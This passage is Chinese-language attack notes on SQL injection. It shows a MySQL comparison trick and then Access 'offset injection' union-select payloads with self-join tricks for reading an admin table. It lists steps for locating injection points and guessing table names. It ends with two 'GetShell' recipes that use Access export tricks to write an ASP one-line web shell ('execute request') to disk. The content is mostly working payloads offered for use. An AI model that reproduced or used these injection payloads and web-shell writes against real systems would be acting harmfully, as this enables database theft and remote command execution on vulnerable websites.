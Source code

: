 		mysql> select 't'='T';
		+---------+
		| 't'='T' |
		+---------+
		|       1 |
		+---------+
		1 row in set (0.00 sec)
		
		mysql> select 't'=char(84);
		+--------------+
		| 't'=char(84) |
		+--------------+
		|            0 |
		+--------------+
		1 row in set (0.01 sec)
hex()中大小写的字符串和它们的16进制不一样的。

### Access偏移注入

假设查询的表的长度有28字段，注入要查询的admin表有5个字段。
> union select 1,2,3,4,5,6,7,8,9,....27,28 from admin 
> 
> union select 1,2,3,4,5,6,...22,23,* from admin

以上是相同的，*可以替代掉。

此方法需要知道表名和一个字段名id，不需要其他字段。

>union select 1,2,3,4,5...17,18,* from (admin as a inner join admin as b on a.id=b.id)

这是admin表自连接，from后面的表会成为字段数加倍的表，前面18+2\*5=28个字段。\*代表的

>union select 1,2,3,4,5...13,a.id,b.id,c.id,* from (admin as a inner join admin as b on a.id=b.id)
>union select 1,2,3,4,5...17,18,* from (admin as a inner join admin as b on a.id=b.id)

对数据不断偏移，尝试读取，如果数据偏移却不出现在可显示的位置，那么此方法就无法达到目的。

#### 思路

* 判断注入点
* 使用order by 判断字段长度
* 获取表名（必备）and exists(select * from[TABLES])
* 使用联合查询

#### Access读写数据

>GetShell 1
>
>create table cmd(a varchar(50))
>insert into cmd (a) values ('<%execute request("admin")%>')
>select * into [a] in 'C:\admin.asa;.xls' 'excel 4.0;' from cmd 
>drop table cmd
>
>GetShell 2
>
>select '<%execute request("a")%>' into [vote] in 'd:\x.asp;xls' 'excel8.0;' from vote
